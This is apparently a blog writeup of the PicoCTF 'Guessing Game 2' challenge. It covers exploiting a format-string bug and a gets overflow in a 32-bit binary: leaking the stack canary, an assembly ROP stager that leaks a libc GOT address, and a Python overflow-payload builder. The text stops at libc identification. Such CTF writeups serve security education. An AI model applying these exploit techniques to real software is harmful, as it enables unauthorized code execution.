 ```yaml
---
layout: post
title: "PicoCTF: Guessing Game 2 - Writeup"
date:   2022-03-12 15:46:00 +0000
categories: ctf binary-exploitation
---
```


# Introduction

This challenge is pretty straightforward and provides a great introduction to the ret2libc method of exploitation.

#### Gaining an understanding of the program

The program begins by asking the user to guess a *random* number based on the remainder of the address of `rand` as seen in the code snippet below. When guessed correctly, the program asks for a name and proceeds by printing it to the screen.

```c
#define BUFSIZE 512

long get_random() {
    return rand;
}

int do_stuff() {
    long ans = (get_random() % 4096) + 1;	
    printf("What number would you like to guess?\n");
    char guess[BUFSIZE];
    fgets(guess, BUFSIZE, stdin);
    ...
}

void win() {
    char winner[BUFSIZE];
    printf("New winner!\nName? ");
    gets(winner);
    printf("Congrats: ");
    printf(winner);
    printf("\n\n");
}
```

#### Bug hunting

The program contains two critical vulnerabilities, a buffer overflow abetted by `gets` and a format string vulnerability. Either one of these vulnerabilities could result in code execution, however, running `checksec` on the binary yielded security mitigations employed. 

```bash
➜  Guessing Game 2 checksec vuln
[*] 'Guessing Game 2/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

As you can see, the binary is hardened with [RELRO](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro) preventing us from leveraging the format string vulnerability to overwrite the Global Offset Table ([GOT](https://en.wikipedia.org/wiki/Global_Offset_Table)). [DEP](https://en.wikipedia.org/wiki/Executable_space_protection), meaning that we cannot use the buffer overflow vulnerability to jump to the stack. Even if the stack was executable we would still be unable to achieve code execution due to the presence of a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_canaries). 

To successfully exploit this binary, we need to leverage the format string vulnerability to leak the stack cookie and use it in the buffer-overflow vulnerability to allow code execution via a ROP chain. First things first, we need to *guess* the *random* number.

# Bruteforcing the random number {#brute-forcing}

`(get_random() % 4096) + 1` gives the solutions a range from -4095 to +4097 a total range of over 8000 however we can narrow this down. Firstly, as the function address is coerced to a signed 32-bit integer we know that this integer will be negative as libc is usually based at a high address. Secondly, the addresses of the libc functions always seem to be 16 byte aligned meaning that they go up in increments of 16, massively reducing the range to 256 possible values.

```python
solutions = range(1, -4095, -16)
```

# Leaking the stack canary {#leaking-stack-canary}

Using gdb([gef](https://gef.readthedocs.io/en/master/)) I broke at main, running the gef canary command to find the current stack canary. I used python to generate a format string based on `"%x " * (512 // 3)` and sent it to the program. Counting the distance from the beginning of the stack to the canary gave me an offset of 135. Using offset 135, we can use the format string `"%135$x"` to reliably leak the stack canary.

```bash
gef➤  canary
[+] The canary of process 78855 is at 0xffffd30b, value is 0x88397800
```

```bash
Congrats: 200 f7fa2600 804877d 1 fffffad1 fffffad1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 f7dd0078 f2f70100 80489fc 8049fbc ffffd098 804888c 0 0 3e8 1 ffffd0b0 f7fa2000 0 f7d9b4ca ffffd31b ffffd174 f7fa2000 f7d9b4ca 1 ffffd174 ffffd17c ffffd0d0 f7fa2000 80487ff 1 ffffd174 f7fa2000 0 ffffd17c 0 eb338acc a7fbe6dc 0 0 0 ffffd17c 0
```

# Leaking Libc through a ROP chain

Armed with the ability to leak the stack canary, we can now focus on getting our shell. I tried to avoid having to leak libc, making a syscall with ROP but, there were not enough gadgets. Though, using `ROPgadget`, I found some helpful gadgets which allowed me to make a ROP chain to dump GOT functions and write to data, I'll be calling this the stager for brevity.

```as
.equ DATA_OFFSET, 0x804A000
.equ GOT_IO_GETS_OFFSET, 0x8049FCC

.macro print fmt, addr
    .long 0x08048470    # _printf@plt
    .long 0x0804844e    # add esp, 8 ; pop ebx ; ret
    .long \fmt
    .long \addr
    .long 0x0           # padding
.endm

.macro gets buffer
    .long 0x8048480     # gets@plt
    .long 0x804844e     # add esp, 8; pop ebx; ret
    .long \buffer
    .quad 0x0           # padding
.endm

.global _start

_start:
    gets DATA_OFFSET
    print DATA_OFFSET, GOT_IO_GETS_OFFSET
    gets DATA_OFFSET
    .long 0x80487FF     # main (restart app)
```

The stager works by waiting for input from stdin and writing it to a writable section in the binary. We are able to use a hard coded address as the binary is compiled without PIE. After input is recieved the stager uses the data written as the format string argument to printf and uses the offset to `gets` in the GOT as the argument. The stager waits for one last input to write to the writable section and then restarts the app by returning to `main`.

#### Getting the stager running

We now need overwrite EIP to an address we control. Using gef's `pattern create` command to create a string and passing it to the application we'll able to obtain the offset to EIP using the information gained I was able to make this python function.

```python
def create_rop_chain(stack_cookie: int, stager: BinaryIO) -> bytes:
    exploit =  b'A' * 512           # Padding
    exploit += p32(stack_cookie)    # Stack cookie
    exploit += b'A' * 12            # Offset to EIP
    exploit += stager.read()        # EIP
    return exploit
```

#### Leaking Libc

Now that we are able to run our stager we'll pass it `%.4s` as the first argument for a 4 byte format string and then recieve the GOT entry for `gets`. The stager will send us a byte string containing the address which can be converted to something useable using `int.from_bytes` in python. Now that we have the address we can use a [libc database](https://libc.blukat.me/) to find the version of Libc running on the server so that we can get the offset of functions in that libc binary. 


<script id="asciicast-dKo2JK5qNYfD9ln8n8zp4gKvy" src="https://asciinema.org/a/dKo2JK5qNYfD9ln8n8zp4gKvy.js" async data-size="small"></script>
